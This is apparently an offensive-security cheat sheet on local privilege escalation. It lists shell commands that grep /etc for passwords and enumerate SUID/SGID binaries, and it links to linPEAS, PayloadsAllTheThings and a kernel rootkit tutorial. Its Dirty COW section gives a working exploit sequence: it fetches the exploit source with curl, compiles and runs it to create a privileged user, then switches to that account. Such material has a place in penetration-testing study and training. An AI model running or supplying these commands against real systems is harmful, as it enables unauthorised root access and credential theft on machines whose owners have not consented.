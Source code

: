 # LPE

* [PayloadsAllTheThings/Windows - Privilege Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)




## Linux



### Filesystem

Grep for sensitive keywords:

```
$ grep -nir passw /etc/ 2>/dev/null
```

Find and list all files newer than `2020-03-16` and not newer than `2020-03-17`:

```
$ find / -type f -readable -newermt '2020-03-16' ! -newermt '2020-03-17' -ls 2>/dev/null
```

Find SUID binaries:

```
 # User
$ find / -type f -perm /4000 -ls 2>/dev/null
 # Group
$ find / -type f -perm /2000 -ls 2>/dev/null
 # Both
$ find / -type f -perm /6000 -ls 2>/dev/null
```


#### linPEAS

* [https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/linPEAS/linpeas.sh)



### Rootkits

* [0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485](https://0x00sec.org/t/kernel-rootkits-getting-your-hands-dirty/1485)



### Dirty COW

* [https://github.com/FireFart/dirtycow/blob/master/dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)

```
$ curl -L https://github.com/FireFart/dirtycow/raw/master/dirty.c > dirty.c
$ gcc dirty.c -o dirty -pthread -lcrypt
$ ./dirty Passw0rd
$ su firefart
```

